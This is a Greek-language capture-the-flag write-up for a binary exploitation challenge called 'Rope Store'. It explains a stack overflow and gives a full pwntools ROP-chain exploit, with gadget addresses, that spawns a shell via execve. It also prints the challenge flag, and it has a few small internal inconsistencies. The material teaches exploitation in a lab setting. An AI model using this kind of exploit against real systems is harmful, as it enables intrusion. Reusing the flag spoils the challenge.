

# Rope Store Write-Up

| Δοκιμασία | Rope Chain |
| :-------- | :----------------- |
| Δυσκολία  | Δύσκολη             |
| Κατηγορία | Εκμετάλευση Δυαδικών αρχείων (Binary Exploitation)  		 |
| Λύσεις    | 3                  |
| Πόντοι    | 595                  |

## Περιγραφή Δοκιμασίας

Ropes in low prices for everyone!


## Ανάλυση Δοκιμασίας

Στη δοκιμασία αυτή μας δίνεται ένα εκτελέσιμο αρχείο rope-store, το οποίο διαβάζει μια είσοδο 256 bytes σε ένα buffer μεγέθους 32 bytes. Επειδή η εισαγωγή γίνεται μέσω fgets() χωρίς όριο, προκύπτει ένα trivial buffer overflow, επιτρέποντάς μας να ελέγξουμε τον δείκτη επιστροφής (RIP) και να εκτελέσουμε έναν ROP (Return-Oriented Programming) chain.


## Επίλυση

Πριν ξεκινήσουμε την εκμετάλλευση, ελέγχουμε τις προστασίες του δυαδικού με checksec:

```bash
$ checksec --file=./rope-store
[*] './rope-store'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       Enabled
    PIE:      No PIE (0x400000)
```

Ανάλυση προστασιών: 
- ✅ NX (Non-Executable Stack): Ενεργοποιημένο → Δεν μπορούμε να εκτελέσουμε shellcode στην stack
- ✅ Full RELRO: Οι δυναμικές εγγραφές της GOT είναι προστατευμένες
- ❌ No Canary: Μπορούμε να κάνουμε buffer overflow χωρίς ανίχνευση
- ❌ No PIE: Οι διευθύνσεις του αρχείου είναι σταθερές → διευκολύνει τον ROP exploit

Επειδή είναι static complied το αρχείο μας μπερδεύει το checksec και βγάζει ότι υπάρχει canary αλλά δεν υπάρχει :).

Επιπλέον λόγω το ότι δεν είναι συνδεδεμένο με τη βιβλιοθήκη libc και φορτώνει τον κώδικα όλον των συναρτήσεων που χρησιμοποιεί, έχουμε μεγάλη ποικιλία από gadgets (assembly code που μπορούμε να χρησιμοποιήσουμε για να φτιάξουμε το rop chain μας).



Διαβάζει μια είσοδο 256 bytes σε ένα buffer μεγέθους 32 bytes. Επειδή η εισαγωγή γίνεται μέσω fgets() χωρίς όριο, προκύπτει ένα stack buffer overflow

### Εκμετάλλευση της Ευπάθειας

Το overflow μας επιτρέπει να ελέγξουμε το RIP, οπότε πρέπει να φτιάξουμε ένα ROP chain που θα εκτελέσει execve("/bin/sh", NULL, NULL)

Αντί να γράψουμε shellcode, εκμεταλλευόμαστε υπάρχοντες ROP gadgets στο δυαδικό για να καλέσουμε execve("/bin/sh", NULL, NULL).

## ROP Gadgets

Χρησιμοποιούμε ROPgadget για να εντοπίσουμε χρήσιμα gadgets:

```bash
$ ROPgadget --binary rope-store <our gadgets>"
0x000000000040204f : pop rdi ; ret
0x000000000040a0be : pop rsi ; ret
0x000000000048600b : pop rdx ; pop rbx ; ret
0x0000000000401e04 : syscall
0x00000000004515b7 : pop rax ; ret
0x0000000000434444 : mov qword ptr [rdi], edx ; ret
0x000000000040101a : ret
```

Αυτά τα gadgets μας επιτρέπουν να ελέγξουμε τα registers και να πραγματοποιήσουμε την κλήση συστήματος execve("/bin/sh", NULL, NULL).

## ROP Chain

### Γράφουμε /bin/sh στη μνήμη

Δεν υπάρχει κάποια συμβολοσειρά /bin/sh στο δυαδικό, οπότε θα τη γράψουμε χειροκίνητα στη μνήμη.

- Τοποθεσία στη μνήμη: 0x4c5010 (μία κενή περιοχή που μπορούμε να χρησιμοποιήσουμε)
- Gadget mov qword ptr [ρdi], edx ; ret → Χρησιμοποιείται για να γράψουμε δεδομένα στη μνήμη, επειδή έχουμε τον edx (32 bit register) πρέπει να βάλουμε 32 bytes σε κάθε γράψιμο οπότε

Χωρίζουμε το /bin/sh σε δύο μέρη:

- bsh1 = b"/bin" + p32(0)
- bsh2 = b"/sh\0" + p32(0)

### ROP chain για εγγραφή στη μνήμη

- Βάζουμε location στο rdi (διεύθυνση όπου θα γράψουμε /bin)
- Βάζουμε /bin στο rdx και γράφουμε στη μνήμη
- Βάζουμε location+4 στο rdi (διεύθυνση όπου θα γράψουμε /sh)
- Βάζουμε /sh\0 στο rdx και γράφουμε στη μνήμη

## Εκτέλεση execve("/bin/sh", NULL, NULL)

Για να καλέσουμε execve("/bin/sh", NULL, NULL), χρειαζόμαστε:

- rax = 0x3b (κωδικός execve)
- rdi = location (/bin/sh που αποθηκεύσαμε)
- rsi = 0 (NULL argument)
- rdx = 0 (NULL environment)
- syscall για να καλέσουμε το system call

Αυτό γίνεται με:

- Φέρνουμε 0x3b στο rax (syscall execve)
- Βάζουμε location στο rdi (τοποθεσία /bin/sh)
- Βάζουμε 0 στο rsi
- Βάζουμε 0 στο rdx
- Εκτελούμε syscall

### Αυτοματοποίηση της διαδικασίας με Exploit

Αντί να εισάγουμε τους αριθμούς χειροκίνητα, δημιουργούμε ένα script με το pwntools, το οποίο αυτοματοποιεί την επίλυση της πρόκλησης.

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("./rope-store")
context.arch = 'amd64'

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    if args.REMOTE:
        return remote("localhost", 4242)
    else:
        return process(elf.path)

p = start()

# Padding μέχρι τον δείκτη επιστροφής
padding = 40 * b"A"

# ROP gadgets
pop_rdi_ret = p64(0x000000000040204f)
pop_rsi_ret = p64(0x000000000040a0be)
pop_rdx_pop_rbx_ret = p64(0x000000000048600b)
syscall = p64(0x0000000000401e04)
mov_ptr_rdi_edx = p64(0x0000000000434444)  
pop_rax = p64(0x00000000004515b7)
ret = p64(0x000000000040101a)

# Διεύθυνση στη μνήμη όπου θα γράψουμε "/bin/sh"
location = 0x4c5010
bsh1 = b"/bin" + p32(0)
bsh2 = b"/sh\0" + p32(0)

# ROP Chain
payload = padding

# Γράφουμε "/bin" στη μνήμη
payload += pop_rdi_ret + p64(location) 
payload += pop_rdx_pop_rbx_ret + bsh1 + p64(0xdeadbeef) 
payload += mov_ptr_rdi_edx 

# Γράφουμε "/sh" στη μνήμη
payload += pop_rdi_ret + p64(location+4)
payload += pop_rdx_pop_rbx_ret + bsh2 + p64(0xdeadbeef)
payload += mov_ptr_rdi_edx

# execve("/bin/sh", NULL, NULL)
payload += pop_rax + p64(0x3b) 
payload += pop_rdi_ret + p64(location) 
payload += pop_rsi_ret + p64(0) 
payload += pop_rdx_pop_rbx_ret + p64(0) + p64(0) 
payload += syscall 

p.sendline(payload)
p.interactive()

```

## Ανάκτηση σημαίας

Αφού τρέξουμε το exploit στον σερβερ, αποκτούμε shell access και μπορούμε να ανακτήσουμε τη σημαία:

## Σημαία

```
FLAG{rop3-ch41n-g03s-brrrr}
```
